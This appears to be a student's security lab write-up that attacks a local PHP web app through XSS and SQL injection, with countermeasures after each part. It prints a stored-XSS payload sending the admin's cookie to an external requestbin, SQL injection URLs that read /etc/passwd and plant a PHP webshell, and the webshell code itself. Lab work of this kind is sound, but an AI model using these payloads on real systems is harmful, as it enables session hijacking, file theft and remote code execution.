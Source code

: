 # Language-based Security

## Lab 3 - Web Application Security

### Part 1: Cross-Site Scripting (XSS)

The main XSS vulnerability that we found was in the "text" field of the comment section the the home page. Indeed, there was no filtering of any kind of HTML charateres of quotes.
This allowed us to inject javascript code in the field to upload a simple picture and, at the same time, steal the `PHPSESSID`cookie of the administator looking at the web page.

#### Description of the attack

The command that we insert in the "text" field and used to steal the administrator's cookie is:
```javascript
<script>var backup_url='http://media.istockphoto.com/photos/head-shot-of-cute-purebred-rottweiler-dog-pup-hanging-with-paws-over-picture-id1096889426';document.write('<img onerror="this.onerror=null;this.src=backup_url;" src="http://en8mgdzvtyrzg.x.pipedream.net/?'+document.cookie+'  "/>');</script>
```

When the administrator checks the comments' page, the first source of the image will send his cookie (via the `document.cookie` command) to our requestbin url and be analysed.

![Requestbin used to hijack the administrator's cookie ](assets/pipedream.png)

The thing is that he will only see that someone uploaded a picture of a dog because a backup url is used in the `onerror`tag of the `<img/>` in case the first source url doesn't lead to a picture file.
All we need then, to hijack the administator's session, is to replace the value of our `PHPSESSID`cookie, in the dev tools of the web browser, by the value of the administrator's cookie.

![Session hijacking via manual modification of the PHPSESSID cookie ](assets/chrome-dev-tool.png)

Finally, we just need to reload the web page and we successfully hijacked the administrator's session. When we click on the "admin" link, we bypass the login/password step:

![Administrator page ](assets/admin-panel.png)

To prevent this attack from happening, we should sanitize user's inputs in the comment's text field. 
We can add escaping functions in the back-end source code to encode special HTML characteres. Some PHP functions are discussed in the countermeasures part.

#### Countermeasures

- Client-side:

Desactivate javascript code execution option in the web browser:
It is possible in modern web browsers to disable javascript code execution when visiting a web page. This would prevent cookie stealing attacks but some websites need javascript to work properly so it can't be a solution on the long run.

- Server-side:

HttpOnly: 
One of the things that could be done to prevent cookie stealing could be to set the HttpOnly flag on the cookies sent by the server so that they can only be communicated over secure channels (SSL/TLS encryption) and become unreadable with javascript code.
The thing is that we also need to switch to an HTTPS communication protocol between the server and the client if we want the cookies to be sent.


Use escaping/encoding:
Another thing that could be done is to encode HTML entites in the user's inputs like `>` to `&gt;`, `<` to `&lt;` and quotes like `'` and `"` respectively to `&#x27;` and `&quot;`.
In PHP for exemple, we can use functions like `htmlentities()` or `htmlspecialchars()` to escape all special charateres that could be used to inject code in the input fields.

### Part 2: SQL Injection

#### Known Vulnerabilities

Firstly we tried to find vulnerabilities in the admin form, for example by escaping password verification, but this method was not very successful. Then we find that the URL was not sanitized, meaning that some commands can be executed through the path, in this lab we will perfom SQL injection, meaning that we will execute SQL queries through this path.

#### Exploiting File Privilege

Using SQL injection, we can for example input a command that reads `/etc/passwd` and display content of this file into a form, as in the image below

![Display passwd file in a form](assets/passwd-file.png)

In order to perform this action, we used the url `http://localhost/admin/edit.php?id=0%20union%20select%201,2,load_file("/etc/passwd"),4`, that executes the query directly on the server which the mysql user, which has more rights than the www-data user. Thus, it's possible to display sensitive files, for example in this case the file containing information about users registered on the system. Before we would have also found passwords in this file, but now UNIX systems uses `/etc/shadow` file to save password hashes. 


#### Create a Webshell

Then, another vulnerability that could harm the system would be to execute unauthorized code remotely, by putting this request as an url :

`http://localhost/admin/edit.php?id=0%20union%20select%201,2,%22%3C?php%20system($_GET[%27cmd%27]);%20?%3E%22,4%20into%20outfile%20%22/var/www/css/webshell.php%22`

By doing this, the mysql user will write on our ccs folder, which as write access for everyone, our php file, that we can see on the image below :

![Webshell file located in css folder](assets/webshell-file.png)

Our file contain php code that will fetch the "cmd" parameter in our url, and run it through a shell

```php
<?php
    system($_GET['cmd']);
?>

```

Now we have our php file on the server, we can execute code remotely

![Request whoami executed remotely](assets/whoami-req.png)

![Request uname executed remotely](assets/uname-req.png)

Note that webshell file belongs to mysql, but when we run the command `whoami` through the web application, it seems that we are logged as www-data user, which is the standard user that is often reserved for remote user of web apps in Apache, it has few rights on the system. But if we tweak a little our previous URL that writes php file, we could for example activate the SUID flag, and by setting our real ID based on the effective ID (as we've done in part 1, but this time through our PHP script) we could send commands using mysql user, which has advanced right on the system. 

#### Countermeasures

##### Web Application

- Parameterised queries : MySQL supports parameterised queries, meaning instead of injecting values directly in the command, it uses inputs as parameters, that are then formatted by only acceptable values into the SQL statement.
- Remove error messages : not the case in this app, but on some web servers if an error occurs it's sometimes thrown back to the client, allowing a potential attacker to gain some information that could help him break the system (like tables structure for example)
    
##### Database System

- Use the principle of least privilege : every web application on a server should have its own database account. Running an application using privileged users (as root, or mysql user) can be very harmful in this type of attack. Anything an administrator can do, so can an attacker. We have the case here by reading the passwd file.
- An even more secure countermeasure would be, for each database account, to authorize only writing and reading the database, and forbid harmful actions like dropping tables.
- Use stored procedures : extra layer of abstraction on your application, you can specify every action that are allowed on each table by creating prepared functions, and use them instead of requesting directly your database. ANy request which is not part of a procedure would be rejected because in a standard usage you would not need to do this action.

##### Operating System

- Change permission on server. In server mostly recommended that directories permissions should 755 and files 644. In permissions 777 are not recommended due to security reasons. When we created the webshell, we used writing rights that were allowed in css folder, and are useless during normal execution so by removing this permission we would ensure that users can't write in this folder.




### Sources

1. [Sécurisez vos cookies (instructions Secure et HttpOnly)](https://blog.dareboost.com/fr/2016/12/securisez-cookies-instructions-secure-httponly/)
2. [SQL Injection Attacks and Some Tips on How to Prevent Them](https://www.codeproject.com/Articles/9378/SQL-Injection-Attacks-and-Some-Tips-on-How-to-Prev)
